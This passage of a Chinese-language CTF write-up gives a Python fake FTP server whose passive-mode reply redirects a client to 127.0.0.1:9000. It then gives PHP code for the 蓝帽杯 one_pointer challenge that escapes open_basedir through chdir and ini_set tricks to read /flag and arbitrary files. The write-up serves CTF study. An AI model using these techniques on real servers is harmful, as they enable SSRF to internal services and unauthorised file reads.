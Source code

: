 现在其实就只剩下了ftp协议了。使用上面的ftp被动模式这样就可以转发到我们想要的端口了。

![fake_ftp](https://i.loli.net/2021/05/03/iMIphR2djFrqzU4.png)

贴上我们的fake_ftp

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('0.0.0.0', 9999))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

注意上面的`9000`端口需要自己测试。因为地方可能不一样

![image-20210503211006186](https://i.loli.net/2021/05/03/U8xQjBXzufd97sS.png)

![image-20210503211027847](https://i.loli.net/2021/05/03/gJSdy7u31ANqmPC.png)

![image-20210503211042381](https://i.loli.net/2021/05/03/vfoCZplm7XQI6tA.png)

这个题就不难解决了，纯粹的一个题解。

### (二) 蓝帽杯的one_pointer

第一层的溢出就不多说了。下面给两个绕过open_basedir

```
<?php
chdir("sandbox/660bef445e619cf44695fec04f93e4f7ff60e252");
mkdir('decadefirst');
chdir('decadefirst');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
readfile("/flag");
var_dump(file_get_contents($_GET[a]));
```


[FTP]: https://www.cnblogs.com/xiaohh/p/4789813.html
[FTP主被动模式]: https://blog.csdn.net/L835311324/article/details/81874628